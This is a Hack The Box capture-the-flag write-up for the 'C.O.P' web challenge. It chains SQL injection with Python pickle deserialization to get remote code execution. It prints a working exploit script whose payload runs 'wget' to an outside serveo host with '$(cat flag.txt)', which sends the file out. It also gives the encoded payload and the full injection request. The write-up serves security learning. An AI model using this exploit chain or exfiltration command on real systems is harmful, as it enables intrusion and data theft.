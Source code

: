 # [C.O.P](https://app.hackthebox.com/challenges/C.O.P) Writeup [HTB]
_Web_

## Investigating the website
This time, I have to deal with a ~~literal~~ cult! The Cult Of Pickles' website is very simple: there are 4 clickable items; clicking on item _id_ triggers a GET /view/_id_. Since the source code is available, I immediately check it!

The first thing I notice is that the flag is stored in some `flag.txt` file. The file isn't referenced anywhere in the code, which makes me think the goal is command injection.

The second thing I notice is a database. When calling GET /view/_id_, the following code is executed:
```py
def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```
Since there is no input sanitizing whatsoever, the application is vulnerable to SQL injection. Good to know!

Now, back to the database. Items in the shop are saved in the database as following:
```py
# edited for simplicity
item1 = Item('Pickle Shirt', 'Get our new pickle shirt!', '23', '/static/images/pickle_shirt.jpg')
data1 = base64.b64encode(pickle.dumps(item1)).decode()
# then `data1` is added to the database, with incremental id
```
In other words, items in the database are Python objects that get dumped as `pickle` and encoded to base 64.

## Crafting a pickle
I'm not very familiar with `pickle`s, so I open the Python documentation and, surprise! I get exactly what I was looking for, right on top of the page, in a big red rectangle:

>*__Warning__* <br>
The `pickle` module **is not secure**. Only unpickle data you trust. <br>
It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

I rub my hands like a cartoonish supervillain, and look for a PoC on Google. [This interesting article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) on `pickle` exploitation comes with a pretty handy script for RCE. 

My evil plan is the following:
1. Run the default HTTP python server on localhost;
2. Expose the server using [serveo](https://serveo.net/);
3. Force the C.O.P server to `GET <my_server_address>/<the flag>`

I copy the script and modify it according to my plan:
```py
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://a212adce5fa81618198dc354690108bb.serveo.net/$(cat flag.txt)')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))

# output : gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4=
```
Now I just need to trick the server into ~~eating~~ _unpickling_ my pickle!

## Injecting the pickle
Pickles are decoded and loaded inside the `render_template` function:
```py
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```
This means my ultimate aim is to force:
```py
product=b'gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4='
```

Remember that SQL injection? This is where it becomes _very_ convenient!

Let's look at the original query:
```sql
SELECT data
FROM products
WHERE id = '<the provided id>'
```
This query must be modified in two ways:
- First, I need to inject the malicious pickle in the result. This can be done with a "UNION" statement;
- Then, I have to make sure the malicious pickle is the first line in the result, otherwise it will be discarded. This can be done by passing a non-existent id.

Overall, the query will look like this:
```sql
SELECT data
FROM products
WHERE id = '5'
UNION
SELECT 'gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4='
```

Now that I have all it takes, I simply have to send the HTTP request.
```
GET /view/5'%20union%20select%20'gASVYwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEh3Z2V0IGh0dHBzOi8vYTIxMmFkY2U1ZmE4MTYxODE5OGRjMzU0NjkwMTA4YmIuc2VydmVvLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4=
```
And my Python server will give me the flag on a silver plate!
```sh
127.0.0.1 - - [19/Aug/2024 09:49:50] "GET /HTB%7B<REDACTED>%7D HTTP/1.1" 404 -
```

## Read more!
[➡️ Next challenge: Golfer - Part 1](./golfer1.md)